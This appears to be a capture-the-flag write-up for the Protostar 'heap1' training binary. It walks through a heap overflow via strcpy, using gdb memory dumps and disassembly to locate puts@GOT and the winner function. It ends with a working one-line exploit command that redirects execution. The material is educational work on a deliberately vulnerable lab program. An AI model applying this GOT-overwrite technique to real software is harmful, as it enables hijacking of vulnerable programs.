 # HEAP 1

# SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
    int priority;
    char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
    struct internet *i1, *i2, *i3;

    i1 = malloc(sizeof(struct internet));
    i1->priority = 1;
    i1->name = malloc(8);

    i2 = malloc(sizeof(struct internet));
    i2->priority = 2;
    i2->name = malloc(8);

    strcpy(i1->name, argv[1]);                  // (1) Buffer Overflow occurs in here
    strcpy(i2->name, argv[2]);                  // (2)

    printf("and that's a wrap folks!\n");
}
```

## OVERVIEW

- Look at the main function, we can see that we have struct type used in this code, the `struct internet` is defined with 2 member variable that is `int` type and a `char*` type: `i1`, `i2`, `i3`, and `i3` will not be used.

- The program allocates for i1 and i2, then initialzes `priority` value and allocates memory for `name` that is char* pointer for both variable pointed by `i1` and `i2`.

- Then the program copy the content of input `arg[1]` and `arg[2]` to `i1->name` and `i2->name`. But, as we work with `strcpy()` in the last chall `heap0`, we can take advantage of `BOF vuln` of `strcpy` to overwrite to the heap memory to change the flow of program.

- In this challenge, we will use `(1) strcpy()` and `arg[1]` to overwrite the `name` of `i2` with address of `puts@GOT.plt`. And `(2) strcpy()` will be used for overwrite the `winner` address to the `puts@GOT.plt`. So if the program run to the `printf("...")` (it's acctually `puts()`, i find this when i disassemble the code) at the bottom of the main function, it redirects to the `winner` function.

```
0x08048555 <main+156>:  call   0x804838c <strcpy@plt>
0x0804855a <main+161>:  mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
```

## DETAILS

- First, we must know the number of byte to overwrite to reach to the `i2->name`. So I run `heap1` with `gdb` to see the heap and calculate the number of byte.

- The useful command `info proc map` will help us to know what is the start of heap.

- So, after run the command, we can see the heap start at `0x804a000`.

```
(gdb) info proc map
process 7126
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0       /opt/protostar/bin/heap1
         0x8049000  0x804a000     0x1000          0       /opt/protostar/bin/heap1
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

- Let's put a breakpoint after 2 `strcpy()` and see what happen in heap.

```
(gdb) x/50xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000  ; write from 0x804a018 to 0x804a02b
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038  ; and from 0x804a02c it will be address of puts@GOT.plt
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
```

- In this challenge we can ignore the informations of block, but look at the address and its data, we can overwrite like we talk in OVERVIEW section.
```
+-------------+--------------------------------+-------------------------------+
|             |                                |            its data           |
|   address   |     informations of block      +---------------+---------------+
|             |                                |  int priority |   char *name  |   
+-------------+--------------------------------+---------------+---------------+
| 0x804a000:  |   0x00000000      0x00000011   |   0x00000001  |    0x0804a018 |  <- this row is i1
+-------------+--------------------------------+---------------+---------------+
| 0x804a020:  |   0x00000000      0x00000011   |   0x00000002  |    0x0804a038 |  <- this row is i2
+-------------+--------------------------------+---------------+---------------+

+-------------+--------------------------------+-------------------------------+
|   address   |     informations of block      |           name's content      |
+-------------+--------------------------------+-------------------------------+
| 0x804a010:  |   0x00000000      0x00000011   |   0x41414141       0x00000000 |  <- name's content of i1
+-------------+--------------------------------+-------------------------------+
| 0x804a030:  |   0x00000000      0x00000011   |   0x42424242       0x00000000 |  <- name's content of i2
+-------------+--------------------------------+-------------------------------+
```

- So we must overwrite `20 bytes` and after that is address of `puts@GOT.plt`, and `arg[2]` will be address of `winner`, and the `(2) strcpy()` will does the overwrite to `puts@GOT.plt`, and then the program run into `printf()`, it redirects to `winner`.

- And by some basic command, I find the address of `winner` and `puts@GOT.plt`

- Address of `winner` is `0x08048494`

```
(gdb) disass winner
Dump of assembler code for function winner:
0x08048494 <winner+0>:  push   ebp
0x08048495 <winner+1>:  mov    ebp,esp
0x08048497 <winner+3>:  sub    esp,0x18
0x0804849a <winner+6>:  mov    DWORD PTR [esp],0x0
0x080484a1 <winner+13>: call   0x80483ac <time@plt>
0x080484a6 <winner+18>: mov    edx,0x8048630
0x080484ab <winner+23>: mov    DWORD PTR [esp+0x4],eax
0x080484af <winner+27>: mov    DWORD PTR [esp],edx
0x080484b2 <winner+30>: call   0x804839c <printf@plt>
0x080484b7 <winner+35>: leave
0x080484b8 <winner+36>: ret
End of assembler dump.
```

- Address of `puts@GOT.plt` is `0x8049774`

```
(gdb) disass 'puts@plt'
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:        jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:        push   0x30
0x080483d7 <puts@plt+11>:       jmp    0x804835c
End of assembler dump.
```

- Now, let's exploit!

## EXPLOIT

- Command

```
./heap1 $(python -c 'print("a"*20 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08")')
```

## RESULT

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c 'print("a"*20 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08")')
and we have a winner @ 1673668863
```
